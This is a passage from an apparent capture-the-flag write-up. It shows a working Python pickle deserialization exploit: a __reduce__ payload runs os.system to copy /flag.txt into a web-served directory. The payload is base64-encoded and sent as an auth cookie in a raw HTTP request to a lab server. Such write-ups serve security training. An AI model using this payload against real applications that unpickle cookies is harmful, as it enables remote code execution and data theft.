 > `pickle_exp.py`

```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("cp /flag.txt /proc/self/cwd/application/static/js",))
print(base64.b64encode(pickle.dumps(P())))
```

![](/assets/obsidian/c1b1777d5a83fdf5c82aa137a2464126.png){:target='_blank'}

`isAuthenticated` was called at `/home`, visit that page

![](/assets/obsidian/387b7511522059cf92e62e6236bd97ed.png){:target='_blank'}

![](/assets/obsidian/288c0111ef85bfc4ea6c7c73f9ef2820.png){:target='_blank'}

Send request with crafted cookie in burp suite

> Don't change cookie in browser, it will crash the app
{: .prompt-tip }

```http
GET /home HTTP/1.1
Host: 83.136.253.102:35117
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://83.136.253.102:35117/
Connection: close
Cookie: auth=gASVTAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDFjcCAvZmxhZy50eHQgL3Byb2Mvc2VsZi9jd2QvYXBwbGljYXRpb24vc3RhdGljL2pzlIWUUpQu
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```

